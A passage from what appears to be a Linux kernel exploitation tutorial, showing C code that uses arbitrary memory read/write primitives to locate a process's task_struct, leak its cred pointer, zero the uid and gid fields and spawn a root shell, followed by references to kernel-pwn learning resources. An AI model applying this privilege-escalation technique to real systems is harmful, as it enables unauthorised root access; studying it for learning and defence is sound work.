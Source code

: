 ```c
        printf("searching... 0x%llx\n", addr);
    }
    if (AAR32(addr) == 0x6f6b656e && AAR32(addr+4) == 0x7572616d) {
        printf("[+] Found 'comm' at 0x%llx\n", addr);
        break;
    }
}
```
The address we leak from here is `comm` member of the `task_struct` which holds the process information. Few bytes above `comm` member is an address to `cred` structure.
3. Leak the `cred` structure that is above `comm` member
```c
long long addr_cred = 0;
addr_cred |= AAR32(addr - 8);
addr_cred |= (long long)AAR32(addr - 4) << 32;
printf("[+] current->cred = 0x%llx\n", addr_cred);
```
4. Overwrite all uid and gid fields to 0
```c
for (int i = 1; i < 9; i++) {
    AAW32(addr_cred + i*4, 0);
}
```
5. At this point the process is promoted to root. What's left is to spawn a shell.
```c
system("/bin/sh");
```

# References

<https://pawnyable.cafe/linux-kernel/>

<https://sam4k.com/like-techniques-modprobe_path/>

<https://sam4k.com/linternals-memory-allocators-0x02/>

<https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/>

<https://github.com/smallkirby/kernelpwn/tree/master/technique>

<https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628>

<https://man7.org/linux/man-pages/man2/prctl.2.html>